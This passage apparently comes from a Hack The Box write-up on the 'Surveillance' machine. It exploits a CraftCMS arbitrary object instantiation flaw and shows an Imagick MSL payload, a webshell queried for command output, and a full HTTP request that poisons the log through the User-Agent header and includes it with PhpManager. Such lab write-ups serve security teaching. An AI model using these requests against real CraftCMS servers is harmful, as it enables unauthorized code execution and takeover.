 ```
{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"vid:msl:/tmp/php*"}}}
--0xdf0xdf0xdf0xdf

```

This hangs for a second before returning 502 Bad Gateway.

But the webshell is in the web root:

```
oxdf@hacky$ curl http://surveillance.htb/0xdf.php?cmd=id
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 2.250u 0:02.259

```

### Alternative Object Abuse

#### Strategy

The original author of the box took a slightly different path towards abusing the arbitrary object instantiation to solve the issue of getting a webshell following details in [this post](https://blog.calif.io/p/craftcms-rce) by the vulnerability’s discoverer:

- Poison the craft web logs with a PHP webshell in a `User-Agent` string.
- Include the file using the `yii` module’s `PhpManager` object.

After including the log, PHP will still crash on the request, not returning the results. Therefore, I’ll have PHP in the log create a webshell in the web root that can be used repeatedly.

#### Modify POC

Starting with the original POC, I’ll replace the `GuzzleHttp` class with `PhpManager`, using the `itemFile` to show what file to include. The log file location (which includes today’s date) is from the [CraftCMS documentation](https://craftcms.com/docs/4.x/logging.html). I’ll modify the `User-Agent` header to be some PHP to write a file in the web root.

```
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: <?php `echo test > /var/www/html/craft/web/0xdf.txt`;?>
Content-Type: application/x-www-form-urlencoded
Content-Length: 258

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2024-04-18.log"}]}}

```

On sending this twice (once to write the log and once to reference it), there’s a file in the web root:

```
oxdf@hacky$ curl http://surveillance.htb/0xdf.txt
test

```
